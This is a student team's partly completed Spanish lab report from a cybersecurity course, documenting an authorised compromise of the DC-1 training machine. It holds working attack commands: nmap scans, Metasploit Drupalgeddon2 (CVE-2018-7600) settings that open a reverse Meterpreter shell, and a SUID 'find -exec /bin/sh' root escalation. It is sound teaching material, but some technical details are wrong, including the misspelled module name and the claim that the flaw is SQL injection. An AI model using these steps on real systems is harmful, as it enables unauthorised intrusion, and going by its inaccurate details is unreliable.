

# Plantilla del informe · Laboratorio UD01 (LAB01 · DC-1)

**Módulo 5025 · Curso de Especialización en Ciberseguridad**

> **Cómo usarla.** El documentalista rellena esta plantilla **durante la sesión**, a medida que el
> equipo avanza. Sustituid lo que va entre `[corchetes]`. Al final solo queda escribir el resumen
> (apartado 1) y repasar. Un informe por equipo, entregado en Moodle.

---

## 1. Resumen (rellenar al final)

*Tres o cuatro frases para alguien sin perfil técnico: qué habéis auditado, qué habéis encontrado,
qué riesgo supone y qué tiene que hacer el cliente.*

[ ]

> **Ejemplo:** «Hemos auditado el servidor web de Drupalia. Hemos conseguido controlarlo por
> completo sin conocer ninguna contraseña porque su web usa un software sin actualizar. Un atacante
> podría robar o cambiar su información. Recomendamos actualizarlo cuanto antes.»

---

## 2. Datos y alcance (rellenar al empezar)

| Campo | Valor |
|---|---|
| Equipo | 3 |
| Operador / Investigador / Documentalista/ Revisor | Alejandro / Angela / Rubén / Hugo |
| Fecha | 19-11-2026 |
| IP de Kali | 10.0.1.10 ] |
| IP de DC-1 (objetivo) | 10.0.1.12 |
| Permitido | Solo la IP de DC-1: escaneo, análisis web, explotación y escalada |
| Prohibido | Cualquier otra IP, la red del centro, la denegación de servicio |
| ¿La IP de DC-1 está en `10.0.1.0/24`? | Sí |

---

## 3. Qué hemos hecho en cada fase

En cada fase, **antes de ejecutar** un comando, escribid en la columna «Qué esperamos» qué creéis
que va a pasar. Si no sabéis escribirlo, preguntad a la IA qué hace el comando antes de lanzarlo.

### Fase 1 · Reconocimiento: ¿qué máquina hay y qué servicios tiene?

> **Pregunta de ayuda para la IA:** «¿Cómo descubro qué equipos hay en mi red `10.0.1.0/24` y qué
> servicios tiene uno de ellos? Explícame qué hace cada opción del comando.»

| Comando | Qué esperamos | Qué ha salido (lo importante) | Captura |
|---|---|---|---|
| `ip a` | Descubrimos la IP de nuestro equipo para así poder buscar la de la máquina vulnerable | IP de nuestro equipo (10.0.1.10) | nº 1 |
| `nmap -sn 10.0.1.0/24` | Esperemos que escanee la red 10.0.1.0/24 y nos diga todas las IPs conectadas ] | Sale la IP de la maquina vulnerable 10.0.1.12 | nº 2 |
| `nmap -sV -sC 10.0.1.12` | Esperamos que nos escanee los puertos abiertos, los servicios y sus versiones en la IP (-sV); además de ejecutar scripts de reconocimiento de vulnerabilidades (-sC) | El puerto 22 con ssh, el 80 con http (con generador drupal7) y el 111 con RCPbind | nº 3 |

**Servicios encontrados:**  
| Puerto | Servicio | Versión |
| --- | --- | --- |
| 22 | ssh | Openssh 6.0p1 Debian 4+DEB7u7 |  
| 80 | http | Apachehttpd 2.2.22 (Debian) |  
| 111 | RCPbind | 2-4 |

**¿Qué servicio parece más interesante y por qué?**  
El servicio http es el más importante debido a que está abierto a internet y en un principio no tiene clave de acceso.

### Fase 2 · Vulnerabilidades: ¿qué tiene un fallo conocido?  
Ya sabiamos anteriormente que drupal7 era una versión vulnerable por eso buscamos directamente los exploits.

| Comando o fuente consultada | Qué esperamos | Qué ha salido | Captura |
|---|---|---|---|
| [ msfconsole && search drupal7 ] | Esperamos obtener una vulnerabilidad relacionada con drupal7 en la consola de Metasploit | Ha salido una vulnerabilidad conocida como drupalggedon2, una vulnerabilidad crítica que permite la ejecución remota de código | nº 4 |

**Vulnerabilidad elegida (CVE) y qué permite hacer:**  
CVE-2018-7600, permite la ejecución remota de código.

### Fase 3 · Explotación: ¿cómo conseguimos entrar?

> **Pregunta de ayuda para la IA:** «Quiero aprovechar esta vulnerabilidad: […]. ¿Qué herramienta
> se usa y qué significa cada opción que tengo que configurar?»

| Comando | Qué esperamos | Qué ha salido | Captura |
|---|---|---|---|
| use exploit/unix/webapp/drupal_drupalggedon2 target Drupal 7.x | Seleccionamos el exploit necesario para explotar la vulnerabilidad | Accedemos al exploit con meterpreter | nº 4 |
| set LHOST 10.0.1.10 | Ponemos como host emisor (local) nuestra IP | Vemos que el host se ha configurado correctamente | nº 4 |
| set LPORT 4789 | Ponemos como puerto del emisor el 4789 (cualquier puerto sin usar sirve) | Vemos que el puerto se ha configurado correctamente | nº 4 |
| set RPORT 80 | Ponemos como puerto del receptor el 80 (puerto con HTTP abierto) | Vemos que el puerto se ha configurado correctamente | nº 4 |
| set RHOST 10.0.1.12 | Ponemos como host receptor (remoto) la IP de la máquina vulnerable | Vemos que el host se ha configurado correctamente | nº 4 |
| exploit | Ejecutamos el exploit cargado anteriormente, esperando establecer conexión con posibilidad de ejecutar código remotamente | Vemos como se ejecuta un manejador TCP reverso e inicia una sesión de meterpreter | nº 4 |

**¿Con qué usuario hemos entrado?**  
www-data  

**¿Por qué no somos administradores todavía?**  
Porque entramos con un usuario web normal sin permisos; deberemos escalar privilegios.

### Fase 4 · Posexplotación: ¿cómo llegamos a administrador?  

| Comando | Qué esperamos | Qué ha salido | Captura |
|---|---|---|---|
| [ find / -perm -4000 2>/dev/null ] | [ Esperamos encontrar binarios con permisos SUID ] | [ Ha salido un listado de binarios, destacamos el propio find que es el que usaremos para una reverse shell ] | [n.º5] |
| [ find . -exec /bin/sh \; -quit] | [ esperamos escalar privilegios hasta root ] | [ hemos conseguido escalar privilegios, al hacer whoami ha salido que somos usuario root  ] | [n.º6] |

**¿Qué fallo de configuración nos ha permitido escalar?** [ ]
**Usuario final:** [ ]

> Si no llegáis a esta fase, escribid hasta dónde habéis llegado y qué probaríais después. Se
> valora lo que sabéis explicar, no llegar a root.

---

## 4. Hallazgos y recomendaciones

Un hallazgo es **un fallo del servidor**, no lo que habéis hecho vosotros. Una fila por fallo.

| Fallo encontrado | Por qué existe (causa) | Gravedad | Cómo corregirlo | Cómo detectar el ataque |
|---|---|---|---|---|
| Uso de drupal7 | El sitio utiliza una versión desactualizada de Drupal7 que no valida ni sanea correctamente las claves de los arrays en las consultas SQL, permitiendo inyección SQL y ejecución remota de código. | **Crítica** | Actualizar el núcleo de Drupal a una versión segura/soportada y revisar que no existan usuarios o archivos maliciosos creados tras el compromiso. | Revisar los registros de acceso del servidor web (/var/log/apache2/access.log) en busca de peticiones POST sospechosas o payloads SQL inusuales, y monitorizar procesos hijos anómalos lanzados por el usuario |
| [ ] | [ ] | [ ] | [ ] | [ ] |

---

## 5. Uso de la IA

Cada integrante añade al menos una fila con su bitácora.

| Quién | Qué preguntamos | Qué aprendimos | ¿La IA se equivocó? ¿Cómo lo comprobamos? |
|---|---|---|---|
| [ ] | [ ] | [ ] | [ ] |
| [ ] | [ ] | [ ] | [ ] |
| [ ] | [ ] | [ ] | [ ] |

